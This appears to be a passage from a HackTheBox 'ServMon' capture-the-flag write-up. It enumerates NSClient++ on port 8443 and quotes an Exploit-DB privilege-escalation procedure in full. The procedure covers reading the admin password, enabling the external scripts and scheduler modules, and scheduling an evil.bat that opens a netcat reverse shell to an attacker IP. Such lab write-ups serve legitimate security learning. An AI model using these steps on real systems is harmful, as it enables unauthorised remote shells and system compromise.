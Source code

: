 ```bash
```


# Enumeration:~$

Now Let's move on to `PORT 8443`

We have Nsclient++

![Servmon](/assets/img/post/hackthebox/servmon/2.png)

The site took a Century to load 

Let's see for it's exploit. A Quick search landed me [here](https://www.exploit-db.com/exploits/46802)

```
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar
```